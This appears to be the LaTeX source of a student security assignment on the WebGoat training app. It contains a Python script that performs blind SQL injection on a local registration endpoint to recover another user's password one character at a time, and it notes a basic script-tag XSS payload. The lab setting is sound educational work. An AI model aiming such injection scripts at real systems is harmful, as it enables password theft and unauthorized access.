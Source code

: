 \documentclass[
	letterpaper, %
	10pt, %
	unnumberedsections, %
	twoside, %
]{APAAssignment}
\begin{document}
\begin{appendices}
Automating this into a brute-force attack..


\begin{verbatim}

import requests
import json
## Python script for 'blind' SQL injection

url = "http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge"
webgoat_session = "OYyd-Kr3f_erhZt5QnVA1-caG64u8PYxcXIt602C"

header = {
"Cookie": "JSESSIONID="+ webgoat_session,
}
password = ""

alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

pw_index = 1
for length in range(1,25):
    for letter in alphabet:

                payload = f"tom' AND SUBSTRING(password,{pw_index},1)='{letter}"
        
        data = {
        'username_reg': payload,    
        'email_reg': 'a@a', 
        'password_reg': 'a',    
        'confirm_password_reg': 'a'     
        }

        ## Do a request
        r = requests.put(url,headers=header, data=data)
        ## Grab the "feedback part of the response"
        text = r.json()['feedback']
        if "already exists" in text:
            password += letter
            pw_index +=1
            print(password)
\end{verbatim}

\begin{figure}[!htb] %
	\centering
	\texttt{[image: Pasted image 20240827142530.png]}
	\caption{Brute Force Result}
	\label{fig:InjectionBruteforceResult}
\end{figure}



\hypertarget{cross-site-scripting}{%
\subsubsection{4.4 Cross Site Scripting}\label{cross-site-scripting}}

\begin{itemize}
\item{XSS (7) All the quantities only accepts integers, putting a
\texttt{\textless{}script\textgreater{}} tags in something on ``three
digit access code'' triggers an alert that page i being manipulated,
putting
\texttt{\textless{}script\textgreater{}alert(test)\textless{}/script\textgreater{}}
works}


\end{itemize}
\end{appendices}
\end{document}
